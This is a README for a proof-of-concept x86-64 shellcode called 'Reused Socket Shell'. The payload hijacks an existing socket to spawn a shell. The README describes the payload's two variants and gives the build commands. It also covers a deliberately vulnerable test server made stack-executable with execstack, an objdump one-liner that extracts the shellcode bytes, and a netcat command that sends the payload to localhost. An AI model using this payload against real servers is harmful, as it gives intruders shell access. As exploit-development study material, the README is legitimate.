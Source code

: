 RSS : Reused Socket Shell

This is a proof of concept of a shellcode that reuse an existing socket to bind a shell on it

I've made two versions of this, the first one (shellcode.s) just check for the last opened file descriptor and gives you the shell though it. Wether it is your socket or not. This method should work on a server that fork() for each client and wich didn't open something after the socket was accepted.
The second version loops through the filedescriptors ; and make a call to recvfrom() for each one of theses. If it gets the good data, it will drop the shell. Otherwise, nothing happen it'll just check for the next socket.

To compile it use :

   ```
   nasm -o shellcode.o -felf64 shellcode.s
   ```

To link it (that step should not be necessary) :

   ```
   ld -o shellcode shellcode.o
   ```

For the test server, you should :

Compile it with gcc :

   ```
   gcc -o server serv_test.c
   ```

And then you should run execstack, wich will allow code execution on the stack. This is needed because we store the user's buffer in an array on the stack, and then execute it. Execstack should be one your repository :

   ```
   apt-get install execstack
   ```

And then run :
   
   ```
   execstack -s ./server
   ```

When you've done all of this, you can run the server.
And to get the shellcode, I use the command line (thanks to http://www.commandlinefu.com for that) in a script (I called it 'getsc') :

    ```
    #!/bin/sh
    for i in $(objdump -d $1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
    ```

For testing, we will use this :

    ```
    (echo -ne `getsc shellcode` ; cat) | nc localhost 1024
    ```